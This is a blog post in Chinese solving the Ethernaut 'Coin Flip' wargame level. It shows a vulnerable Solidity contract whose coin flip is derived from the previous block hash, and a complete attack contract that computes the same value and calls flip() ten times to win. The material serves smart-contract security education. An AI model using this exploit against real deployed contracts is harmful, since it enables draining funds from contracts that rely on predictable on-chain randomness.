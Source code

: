 ```yaml
---
layout: post
title: Coin Flip
tags: [ethernaut]
---
```


# Coin Flip
关于依赖于block hash的合约行为。
```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### 代码分析
1. 合约肯定不是通过人力来猜出结果，而是需要通过相同的逻辑来完成猜测
2. 编写攻击合约实现与该合约相同的逻辑，并在攻击合约中调用该合约的flip方法，
因为，整个流程为一条交易，所以他们获取的blockhash值肯定是一致的，即攻击合约
一定能够猜中。

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/CoinFlipAttack.sol)   
不导入CoinFlip合约
```solidity
pragma solidity ^0.4.18;


contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack(address _victim) public returns (bool) {
    address coinflip = _victim;
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coinflip.call(bytes4(keccak256("flip(bool)")), side);
    return side;
  }
}
```
*bytes4(keccak256("flip(bool)"))*为合约调用方法的methodID

### 攻击方法
1. 部署攻击合约
2. 调用攻击合约attack(address)方法；（调用10次）
